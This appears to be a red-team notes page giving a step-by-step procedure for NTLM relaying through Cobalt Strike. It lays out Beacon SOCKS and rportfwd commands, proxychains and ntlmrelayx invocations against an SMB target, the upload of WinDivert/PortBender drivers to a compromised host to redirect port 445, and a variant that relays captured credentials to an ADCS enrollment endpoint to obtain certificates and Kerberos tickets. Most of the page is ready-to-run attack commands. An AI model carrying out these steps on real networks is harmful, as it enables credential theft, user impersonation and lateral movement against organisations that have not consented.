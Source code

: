 # NTLM Relaying with Cobalt Strike

- NTLM relaying is potentially a significant source of credentials for impersonating users, opening up paths in an environment
- On-premise NTLM relaying is fairly easy because the attacking machine can be plugged directly into the network and can listen on any port
- Typical red team engagement (off-premise) NTLM relaying is significantly more difficult because access to the network is through compromised hosts and you can't necessarily listen on any port (445 especially)
- External tooling is required to pull off NTLM relaying through a Cobalt Strike infrastructure

---

## Procedure

1. With a Beacon on a target, [[cobalt-strike-tunneling#SOCKS4 Proxy|start a SOCKS4 proxy on the Team Server]] that will dynamically forward traffic through the compromised target

```beacon
socks $SOCKS_PORT
```

2. Through [[proxychains]] pointing at the Team Server's SOCKS4 server, run [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) on the Team Server's TCP port 445

```bash
proxychains python3 $PATH_TO_NTLMRELAYX -t smb://$TARGET_IP -smb2support --no-http-server --no-wcf-server
```

- This will relay captured credentials to `$TARGET_IP`

3. Leverage Beacon's [[cobalt-strike-tunneling#Port Forward through Team Server rportfwd|rportfwd]] command to forward a high port (i.e., 8445) on the compromised target through the Team Server to `ntlmrelayx` on the Team Server's TCP port 445

```beacon
rportfwd $HIGH_PORT 127.0.0.1 445
```

4. Leverage a driver (like [WinDivert](https://reqrypt.org/windivert.html)) to forward traffic from the machine's TCP port 445 to the high port (i.e., 8445)

- Upload [WinDivert32.sys](https://github.com/praetorian-inc/PortBender/tree/main/static) or [WinDivert64.sys](https://github.com/praetorian-inc/PortBender/tree/main/static) to the compromised target (potentially in `C:\Windows\System32\drivers\`)
- Load [PortBender.cna](https://github.com/praetorian-inc/PortBender/tree/main/static) into Cobalt Strike to get access to the `PortBender` command in Beacon
- Start the forward

```beacon
PortBender redirect 445 $HIGH_PORT
```

---

## Relaying an NTLM to a ADCS HTTP Endpoint

Follow [[cobalt-strike-ntlm-relaying#Procedure|the above procedure]], but replace #2 with the following:

2. Through [[proxychains]] pointing at the Team Server's SOCKS4 server, run [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) on the Team Server's TCP port 445

```bash
proxychains python3 $PATH_TO_NTLMRELAYX -t http://$ADCS_HTTP_ENROLLMENT_ENDPOINT_HOSTNAME_OR_FQDN/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

- This will relay captured credentials to the ADCS HTTP endrollment endpoint and return a certificate for the relayed user
	- This is already a base64 encoded PFX certificate and thus can be used to [[rubeus#Request TGT using Base64-Encoded PFX Certificate|request a TGT]]
- **NOTE** that you can't relay from a target to itself. Thus, you can't target the computer the ADCS HTTP enrollment endpoint is running on. You'll have to target another computer

---

## Reference

[RastaMouse - NTLM Relaying via Cobalt Strike](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)
